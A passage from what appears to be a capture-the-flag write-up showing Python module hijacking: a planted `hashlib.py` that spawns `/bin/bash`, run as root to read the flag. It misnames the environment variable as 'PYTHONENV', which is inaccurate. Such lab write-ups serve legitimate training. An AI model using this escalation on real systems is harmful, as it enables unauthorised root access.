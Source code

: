       print("Your SHA1 hash is: ", end ="")
      print(sha1.hexdigest())
  
  def main():
      passw = input("Enter a password to hash: ")
      hashing(passw)
  
  if __name__ == "__main__":
      main()
    ```
    
- we can set PYTHONENV to hijack `hashlib` python module
- we added `hashlib.py`  in `/tmp/py-module-hijacking/` to hijack hashlib module
- Note: You should name the file hashlib.py not hashlib
- hashlib.py content :
    
    ```python
    from pty import spawn
    spawn('/bin/bash')
    ```
    
    - fairly simple, just importing `spawn` from `pty` module and spawning `/bin/bash`

![Untitled](/assets/images/thm/biblioteca/root.png)

## root.txt flag

```bash
root@biblioteca:/tmp/py-module-hijacking# cd ~
root@biblioteca:/tmp/py-module-hijacking# ls 
root.txt   snap
root@biblioteca:/tmp/py-module-hijacking# cat root.txt
[REDACTED]
```

